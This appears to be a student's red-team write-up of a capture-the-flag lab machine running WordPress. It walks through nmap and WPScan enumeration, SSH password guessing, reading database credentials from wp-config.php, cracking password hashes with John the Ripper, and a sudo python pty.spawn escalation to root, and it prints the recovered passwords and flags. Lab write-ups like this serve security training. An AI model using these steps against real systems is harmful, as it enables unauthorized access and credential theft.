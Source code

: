 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap --script nmap-vulners -sV 192.168.1.110
```         
 ![](2021-05-06-19-13-21.png)
 ![](2021-05-06-19-14-12.png)
 ![](2021-05-06-19-14-42.png)
 ![](2021-05-06-19-14-55.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH version 6.7p1
  - Apache httpd 2.4.10

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - Wordpress database password stored in plaintext
  - User account able to run python commands with sudo allowing for privilege  escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:Flag1{b9bbcb33ellb80be759c4e844862482d}
    - **Exploit Used**
      - _TODO: I did a WPscan and enumerated the users, saw the user Michael and was able to get an SSH session after a few password attempts. Once I had a shell I started with by using the find command to look for flag1.txt, this came up empty. I then did the same command for flag2.txt and saw it was located in /var/www. At first I thought flag1 might be in the previous directory but there were no files, only more directories. So I went inside of the html directory located in the same folder as flag2.txt and saw a bunch of files. I started grepping through the files and was able to find flag1 in service.html
      - _TODO: wpscan --url http://192.168.1.110.com --enumerate vp,u
               ssh michael@192.168.1.110
               1st password attempted: leahcim
               2nd password attempted: password
               3rd password attempted: michael
               find / -iname flag1.txt
               find / -iname flag2.txt
               cd /var/www
               cd ..
               cd /var/www/html
               grep flag about.html
               grep flag contact.php
               grep flag elements.html
               grep flag index.html
               grep flag service.html
               ![](2021-05-06-20-43-01.png)

  - `flag2.txt`:Flag2{fc3fd58dcdad9ab23faca6e9a3e581c}
    - **Exploit Used**
      - _TODO: I again used a WPscan to find the user Michael, guessed his password for an SSH session, and used the find command to look for flag2.txt. It was located in /var/www 
      - _TODO: find / -iname flag2.txt
      
      ![](2021-05-06-20-41-01.png)
      ![](2021-05-06-20-41-47.png)

 - `flag3.txt`: Flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - _TODO: After locating the wp-config.php file within /var/www/html/wordpress I was able to discover the database username and password. These were listed as root and R@v3nSecurity respectively. and the host name was localhost
      ![](2021-05-06-20-46-24.png)
      I then used mysql to get into the DB and started looking for flag3. I first looked for the databases available, saw one titled wordpress so went into it. Then I pulled up the tables and started looking through them all from the top down. Eventually I found flag3 inside of wp_posts
      ![](2021-05-06-20-56-25.png)  
      - _TODO: cd /var/www/html/wordpress
               nano wp-config.php
               mysql -u root -p'R@v3nSecurity' -h localhost
               show databases;
               use wordpress;
               show tables;
               select * from wp_commentmeta;
               select * from wp_comments;
               select * from wp_links;
               select * from wp_options;
               select * from wp_postmeta;
               select * from wp_posts;

  - `flag4.txt`:Flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - _TODO: Since I was inside of the SQL DB I went to the wp_users table to find the password hashes for the user accounts. I copied the hashes and echoed them into a new file I called finalprojhashes.txt. I then ran John the ripper agaisnt the file and was able to find Stevens password. I then used this combo to SSH in as Steven. Once I had a shell as the Steven user I checked the sudo privileges of Steven and saw that he could run the python command as sudo. I then spent some time on google looking for ways to use python with sudo to escalate to root. I eventually found the command "python -c 'import pty;pty.spawn("/bin/bash")" which was listed as a typical PTY upgrade using python. Once I ran this command I was able to get root access, then I ran a find command to look for flag4. I found it in /root. A quick cat of the file and I was done. 
      - _TODO: select * from wp_users;
               copy Micheal's hash and then: echo 'Michael:' >> finalprojhashes.txt
               copy Steven's hash and then: echo 'Steven:' >> finalprojhashes.txt
               john finalprojhashes.txt
               ssh steven@192.168.1.110
               password: pink84
               sudo -l
               sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
               find / -iname flag4.txt
               cat /root/flag4.txt


    ![](2021-05-06-21-14-20.png)
    ![](2021-05-06-21-19-29.png)
    ![](2021-05-06-21-22-16.png)
